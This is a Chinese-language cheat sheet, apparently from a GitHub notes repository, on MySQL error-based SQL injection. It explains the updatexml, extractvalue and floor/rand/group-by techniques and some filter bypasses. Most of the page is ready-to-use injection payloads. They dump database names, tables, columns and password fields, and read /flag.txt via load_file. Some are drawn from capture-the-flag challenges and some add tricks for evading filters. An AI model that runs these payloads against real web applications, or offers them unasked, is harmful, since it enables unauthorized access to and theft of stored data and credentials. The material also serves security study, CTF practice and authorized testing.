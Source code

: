 利用报错回显敏感的sql注入
常利用函数：updatexml、floor、exp、extractvalue、join
* floor
* exp
* extractvalue
* updatexml
* name_const
* join
* geometrycollecion
* polygon
* multipoint
* multinestring
* multpolygon
* linesring

特殊函数
```
concat()用于连接多个字段。常配合报错函数。
group_concat()用于拼接某个字段的所有值，常用于输出。
也可以：
GROUP_CONCAT(CONCAT(first_name, ' ', last_name)
```

拼接符
```
AND OR ^ || &&优先级比两边低，导致了会先执行错误语句报错。
在 SQL 中，`AND` 和 `OR` 操作符的优先级比算术运算符（如加法 `+`、乘法 `*`）的优先级要低。
这意味着在没有括号明确指定操作顺序的情况下，算术运算会先于逻辑运算执行。
```


## **updatexml**
原理：
updatexml（）一共有三个参数，第一个是xml内容、第二个参数是update的位置XPATH路径、第三个参数是更新后的内容；这里报错的主要原理是利用第二个参数，当其校验输入的内容是否符合XPATH路径格式的时候，不符合就报错，一般书写在路径位置为特殊符号0x7e，即可使得出现报错。同时第二个参数加入version（）或者database（）等等，因为不满足XPATH格式所以会输出错误，输出错误的时候将sql代码顺便（verson()，database()等）执行了。
```
payload:
//查询当前MySQL版本
'and updatexml(1,concat(0x7e,(select @@version)),1) or '1'='1
'or updatexml(1,concat(0x7e,(select @@version),0x7e),1) or '
//查询当前数据库名
'and updatexml(1,concat(0x7e,(select database())),1) or '1'='1
'and updatexml(1,concat(0x7e,(select database(),0x7e),1) or '1'='1
//查询表名（当前数据库下的）
'and updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()),0x7e),1) or '1'='1
//查询字段名(users表中的)
'and updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_name='users'),0x7e),1) or '1'='1
'and updatexml(1,concat(0x7e,(SELECT GROUP_CONCAT(column_name) FROM information_schema.columns WHERE table_name = 'adopt_admin' ),1),1) or '1'='1

基于insert/update下的报错
'or updatexml(1,concat(0x7e,(select @@version),0x7e),1) or '
基于delete下的报错
'or updatexml(1,concat(0x7e,(select @@version),0x7e),1)

#正则f开头后就是一个
123"||(updatexml(1,(select(real_flag_1s_here)from(users)where(real_flag_1s_here)regexp('^f')),1))#

#updatexml()函数有长度限制（32位），使用reverse()进行倒序输出，将其与前段的flag进行拼接得到flag
123"||(updatexml(1,concat('~',reverse((select(group_concat(real_flag_1s_here))from(users)where(real_flag_1s_here)regexp('^f')))),1))#

123"||(updatexml(1,concat('~',((select(reverse(real_flag_1s_here))from(users)where(real_flag_1s_here)regexp('^f')))),1))#

#这里right()函数如果被过滤了，所以用reverse()
123"||(updatexml(1,concat('~',((select(right(real_flag_1s_here,30))from(users)where(real_flag_1s_here)regexp('^f')))),1))#

#也可以用substr()分段读
(select substr(load_file('/flag.txt'),1,30))
```


^
## **extractvalue**
原理：与updatexml类似，第二个参数路径错误。
```
'and extractvalue(1,concat(0x7e,(select @@version))) #


过滤空格用括号()，过滤=用like

?username=admin&password=admin'^extractvalue(1,concat(0x5c,(select(database()))))%23
查出库名geek

?username=admin&password=admin'^extractvalue(1,concat(0x5c,(select(group_concat(table_name))from(information_schema.tables)where(table_schema)like('geek'))))%23
查出表名：H4rDsq1



?username=admin&password=admin'^extractvalue(1,concat(0x5c,(select(group_concat(column_name))from(information_schema.columns)where(table_name)like('H4rDsq1'))))%23
查出有password字段



?username=admin&password=admin%27^extractvalue(1,concat(0x7e,(select(left(password,30))from(geek.H4rDsq1))))%23

extractvalue函数只能30字符，先做，后右。

?username=admin&password=admin%27^extractvalue(1,concat(0x7e,(select(right(password,30))from(geek.H4rDsq1))))%23
```

^
## **floor**
floor()报错注入准确地说应该是floor,count,group by冲突报错是当这三个函数在特定情况一起使用产生的错误。
```
and (select count(*) floor(rand(14)*2) as a from users group by a);

获取数据库用户名
select * from test where id=1 and (select 1 from (select count(*), concat(user(),floor(rand(0)*2)) as x from information_schema.tables group by x)a) 

select * from test where id=1 and (select 1 from (select count(*), concat(database(),floor(rand(0)*2)) as x from information_schema.tables group by x)a) 

显示当前数据库名，登陆用户，数据库版本和数据路径 
SELECT (select 1 from (select count(*),concat(floor(rand(0)*2),(select concat(0x3a,database(),0x3a,user(),0x3a,version(),0x3a,@@datadir)))a from information_schema.tables group by a)b)

union+select+1+from+(select+count(*),concat(floor(rand(0)*2),(select+concat(0x3a,database(),0x3a,user(),0x3a,version(),0x3a,@@datadir)))a+from+information_schema.tables+group+by+a)b 
1、获取所有的数据库名 
union+select+1+from+(select+count(*),concat(floor(rand(0)*2),(SELECT distinct concat(0x7e,0x27,SCHEMA_NAME,0x27,0x7e)+FROM+information_schema.SCHEMATA+LIMIT+0,1))a+from information_schema.tables+group+by+a)b 
2、爆当前数据库中的表 
union+select+1+from+(select+count(*),concat(floor(rand(0)*2),(select+table_name+from+information_schema.tables+where+table_schema=database()+limit+0,1))a+from+information_schema.tables+group+by+a)b 
3、爆字段 
union+select+1+from+(select+count(*),concat(floor(rand(0)*2),(select+column_name+from+information_schema.columns+where+table_name=表名+limit+0,1))a+from+information_schema.tables+group+by+a)b 
4、爆内容 
union+select+1+from+(select+count(*),concat(floor(rand(0)*2),(select+concat(0x3a,字段1,0x3a,字段2)+from+表名+limit+0,1))a+from+information_schema.tables+group+by+a)b
```
原理：
group进行分组，count进行统计，rand进行创建随机数并且是第十四次，然后乘以2，用floor进行向下取整，然后得到1010，进行分组排序的时候，系统会先生成一个虚拟表，然后是主键和值，通过查询floor(rand(14)\*2)得到结果是1，然后发现自己得虚拟表中没有，插入虚拟表中得主键，然后在插入得时候，表达式会再次执行一遍，实际插入到里面得是零，然后第二次，插入是1，发现表中没有，在插入得时候再次运行，实习插入主键得是0，**两个主键0**，因此报错。

必要条件：
数据库得数据必须得大于2才能执行



^
## **报错注入绕过**
```
1 AND (SELECT 2*(IF((SELECT * FROM (SELECT CONCAT(0x7e,(SELECT database()),0x7e,0x78))s), 8446744073709551610, 8446744073709551610)))



' and ST_Pointfromgeohash(current_user())--+
' || ST_Pointfromgeohash()--+
' || ST_Pointfromgeohash()#


order by GTID_SUBSET((version(),1))
```